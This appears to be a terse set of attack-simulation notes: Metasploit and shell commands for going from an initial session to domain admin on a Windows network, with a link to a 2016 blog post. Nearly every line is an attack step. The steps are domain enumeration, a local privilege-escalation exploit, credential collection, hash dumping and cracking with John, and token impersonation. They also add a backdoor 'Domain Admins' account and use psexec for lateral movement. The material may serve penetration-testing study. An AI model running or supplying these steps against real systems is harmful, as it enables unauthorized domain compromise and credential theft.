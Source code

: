 #generate payload
#initial access
sessions -i 1
sysinfo
background
use post/windows/gather/enum_domain
use post/windows/gather/enum_domain_group_users
shell
net groups "domain admins" /domain
shell
wmic qfe list
use exploit/windows/local/ms15_051_client_copy_image
info
exploit
getuid
NT authority\SYSTEM
use post/windows/gather/credentials/credential_collector
info
creds
grab hashes into text files
cat hashes.txt
john --format:NT --wordlist=[filename].txt hashes.txt
#crack local administrator password
impersonate_token
impersonate_token of another logged high priviledged user
shell
net user evilboss password123 /add /domain
net group "Domain Admins" evilboss /add /domain
exploit/windows/smb/psexec
EXPLOIT
sysinfo -> x64 shell
hashdump

https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html
